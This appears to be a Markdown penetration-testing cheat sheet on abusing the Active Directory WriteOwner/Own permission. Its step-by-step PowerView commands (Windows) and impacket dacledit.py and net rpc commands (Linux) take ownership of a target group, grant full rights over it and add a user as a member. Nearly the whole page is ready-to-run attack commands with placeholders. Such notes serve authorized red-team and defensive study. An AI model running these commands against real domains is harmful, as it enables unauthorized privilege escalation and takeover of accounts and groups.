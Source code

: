 ```yaml
---
title: "WriteOwner/Own"
date: 2024-7-27
tags: ["WriteOwner", "active driectory", "ad", "Windows", "own"]
---
```


---
### Abuse #1 : Change owner of the group (From Windows)

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Change owner

```powershell
Set-DomainObjectOwner -Identity <TARGET_GROUP> -OwnerIdentity <USER>
```

### Abuse #2 : Add user to the group (From Windows)

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Create cred object (runas) \[optional\]

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add user to group

```powershell
Add-DomainObjectAcl -TargetIdentity <TARGET_GROUP> -PrincipalIdentity '<DOMAIN>/<USER>' -Rights All -DomainController <DC> -Credential $cred
```

```powershell
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

#### Check

```powershell
Get-DomainGroupMember -Identity <TARGET_GROUP> -Domain <DOMAIN> -DomainController <DC> -Credential $cred | fl MemberName
```

```powershell
# Or
net user <USER>
```

```powershell
# Exit current sessions or re-login
whoami /groups
```

### Abuse #2 : Add user to the group (From Linux)

#### 0. Install latest impacket (included dacledit.py)

```bash
git clone https://github.com/fortra/impacket.git
```

```bash
cd impacket
```

```bash
pip3 install .
```

#### 1. Add domain object

```bash
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target <TARGET_GROUP> -action write -rights WriteMembers
```

#### 2. Add group member

```bash
kinit <USER>
```

```bash
sudo ntpdate -s <DC> && net rpc group addmem <TARGET_GROUP> <USER> -U <USER> --use-kerberos=required -S <DC> --no-pass
```

#### 3. Check

```bash
sudo ntpdate -s <DC> && net rpc group members <TARGET_GROUP> -U <USER> --use-kerberos=required -S <DC> --no-pass
```

<br>